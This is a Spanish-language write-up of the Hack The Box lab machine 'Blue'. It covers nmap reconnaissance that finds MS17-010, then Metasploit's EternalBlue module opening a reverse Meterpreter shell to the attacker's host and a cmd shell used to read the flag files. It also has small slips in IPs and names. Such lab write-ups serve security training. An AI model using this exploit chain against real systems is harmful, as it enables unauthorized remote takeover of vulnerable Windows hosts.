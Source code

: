 # Blue

Creamos los directorio de trabajo con el nombre de la maquina en nuestro caso Lame

```ruby
mkdir Blue
```

## Reconocimiento de Puertos

Lanzamos un ping para comprobar que tenemos conexión desde nuestra maquina 

```ruby
ping 10.10.10.40
```

Comprobamos la versión del sistema operativo que tenemos si tenemos un ttl de 127 se trata de una maquina windows.

### Reconocimientos Nmap

Lanzamos la herramienta Nmap para ver los puertos disponibles que se encuentran abiertos,
es un escaneo agresivo ya que estamos en un entorno controlado

```ruby
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.3 -oG allPorts
```

La salida la ponemos en un archivo con formato grepeable para poder buscar luego 

Los puertos son los siguientes:

```ruby
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
49152/tcp open  unknown      syn-ack ttl 127
49153/tcp open  unknown      syn-ack ttl 127
49154/tcp open  unknown      syn-ack ttl 127
49155/tcp open  unknown      syn-ack ttl 127
49157/tcp open  unknown      syn-ack ttl 127

```

Realizamos un escaneo mas exhaustivo para comprobar que versión corre en ese puerto

```ruby
nmap --script=firewall-bypass -p135,139,445,49152,49153,49154,49155,49157 -vvv -oN targeted 10.10.10.40
```

```ruby

Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
|_smb-vuln-ms10-054: false
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

```

vemos que podemos explotar la vulnerabilidad eternalblue en la máquina lo podemos de hacer de varias formas yo voy con metasploit que es la forma mas sencilla .


## Explotamos MS17-010

Para ello primero de todo vamos a metasploit y buscamos aquello referente con el codigo 


```ruby
searchsploit ms17-010
```

Encontramos las siguientes vulnerabilidades

``` ruby
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14   average  Yes
```

Podemos ver que si lo ejecutamos nos lanza una shell meterpreter, por lo tanto vamos a configurarlo para intentar explotar el fallo

```ruby
msf6 exploit(windows/smb/ms17_010_eternalblue) > setg LHOST 10.10.14.13
LHOST => 10.10.14.13

msf6 exploit(windows/smb/ms17_010_eternalblue) > setg RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
```


Explotamos el exploit:

```ruby 
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
[*] 10.10.10.40:445 - Connecting to target for exploitation.
[+] 10.10.10.40:445 - Connection established for exploitation.
.....
[*] Meterpreter session 2 opened (10.10.14.13:4444 -> 10.10.10.40:49164) at 2023-06-28 09:20:26 -0400
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

Finalmente podemos comprobar que lo explotamos con éxito.
```ruby
meterpreter > ls
Listing: C:\Windows\system32
...
```

### Tratamiento de TTY de meterpreter 

Como no me gusta la terminal de meterpreter porque es un poco precaria voy a tunearla para que sea parecida a la de windows

Para ello vamos a ejecutar el siguiente comando 

```ruby 
meterpreter > execute -c -f cmd.exe -H -i -d
```

Con esto tenemos una shell como la de windows 

```ruby 
Process 1820 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>

```



#### Buscamos las flag

Para encontrar las flags vamos al directorio raíz y a partir de ahí realizamos una búsqueda 
recursiva usamos el siguiente comando.

```ruby
dir /s /b root.txt user.txt
```
Nos devuelve dos ficheros que existen en el equipo en los siguientes directorios 

```ruby
C:\Users\Administrator\Desktop\root.txt
C:\Users\haris\Desktop\user.txt
```

Para ver las flags usamos el siguiente comando (es similar al cat)

```ruby 
type C:\Users\Administrator\Desktop\root.txt
```
